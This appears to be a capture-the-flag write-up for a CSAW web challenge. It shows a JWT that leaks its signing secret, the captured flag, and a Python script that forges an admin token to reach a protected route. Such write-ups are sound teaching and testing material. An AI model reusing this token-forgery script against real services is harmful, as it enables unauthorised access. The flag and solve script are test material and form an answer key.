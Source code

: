 After access to the website, we will see:

```html
<h1>Welcome to our SINGLE SIGN ON PAGE WITH FULL OAUTH2.0!</h1>
<a href="/protected">.</a>
<!--
Wish we had an automatic GET route for /authorize... well they'll just have to POST from their own clients I guess
POST /oauth2/token 
POST /oauth2/authorize
--!>
```

Seems we need use oauth to login and access ``/protected``. After try with oauth standard, we will get a token like ``eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNjk3MzkwOSwiZXhwIjoxNTM2OTc0NTA5fQ.qfEHpLa78Cp-jNoJ-2xp8_4qnj9TDeqlKllLWWW3o-Q``.

But with this token, we will get a response like ``Unauthorized``.

Try decode this token:

```json
{
  "type": "user",
  "secret": "ufoundme!",
  "iat": 1536973909,
  "exp": 1536974509
}
```

looks like jwt secret is ``ufoundme!``, so just make a new token which type is ``admin`` and access ``/protected``, we wiil get flag: ``flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}``.

Finally, my payload is here:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import sys
import jwt
import time
import json
# https://github.com/LyleMi/Saker
from saker.main import Saker


class Cli(Saker):

    def __init__(self, url):
        super(Cli, self).__init__(url)

    def authorize(self, cid):
        data = {
            "response_type": "code",
            "client_id": cid,
            "redirect_uri": "token",
            "state": "ok"
        }
        self.post("oauth2/authorize", data=data)
        return self.lastr.url

    def token(self, cid, code):
        data = {
            "code": code,
            "grant_type": "authorization_code",
            "client_id": cid,
            "redirect_uri": "token",
            "state": "ok"
        }
        self.post("oauth2/token", data=data)
        return self.lastr.content

    def protected(self, token):
        headers = {
            "Authorization": "Bearer " + token,
        }
        self.get("protected", headers=headers)
        print(self.lastr.content)


if __name__ == '__main__':
    url = "http://web.chal.csaw.io:9000/"  # site url
    c = Cli(url)
    cid = "admin"
    step = sys.argv[1]
    if step == "1":
        code = c.authorize(cid).split("code=")[1].split("&")[0]
        print(code.split(".")[1].decode("base64"))
        token = json.loads(c.token(cid, code))["token"]
        payload = token.split(".")[1]
        payload = payload + '=' * (4 - len(payload) % 4)
        print(payload.decode("base64"))
    elif step == "2":
        key = "ufoundme!"
        payload = {
            "type": "admin",
            "secret": "ufoundme!",
            "iat": int(time.time()),
            "exp": int(time.time()) + 600
        }
        token = jwt.encode(payload, key)
        c.protected(token)
```
